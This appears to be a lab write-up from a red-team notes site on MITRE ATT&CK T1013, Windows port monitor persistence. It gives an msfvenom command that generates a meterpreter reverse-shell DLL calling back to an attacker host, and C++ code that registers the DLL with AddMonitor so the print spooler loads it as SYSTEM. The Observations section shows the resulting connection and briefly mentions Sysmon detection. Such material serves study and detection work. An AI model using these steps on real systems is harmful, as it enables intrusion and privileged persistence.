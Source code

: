 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1013: AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Writing and compiling a simple C++ code that will register the monitor port:

{% code-tabs %}
{% code-tabs-item title="monitor.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../../.gitbook/assets/t1013-portmonitor64.exe" caption="PortMonitor64" %}

{% file src="../../.gitbook/assets/evil64.dll" caption="evil64.dll - meterpreter payload" %}

Move evil64.dll to `%systemroot%` and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed by the spoolsvc:

![](../../.gitbook/assets/monitor-loaddll.png)

![](../../.gitbook/assets/monitor-loaddll2.png)

which eventually spawns a rundll32 with meterpreter payload, that initiates a connection back to the attacker:

![](../../.gitbook/assets/rundll-connect.png)

![](../../.gitbook/assets/monitor-shell-system.png)

The below confirms the procmon results explained above:

![](../../.gitbook/assets/monitor-spoolsvc-rundll.png)

Sysmon commandline arguments and network connection logging to the rescue:

![](../../.gitbook/assets/monitor-sysmon.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1013" %}

{% embed url="https://www.youtube.com/watch?v=dq2Hv7J9fvk" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd183341\(v=vs.85\).aspx" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd145068\(v=vs.85\).aspx" %}



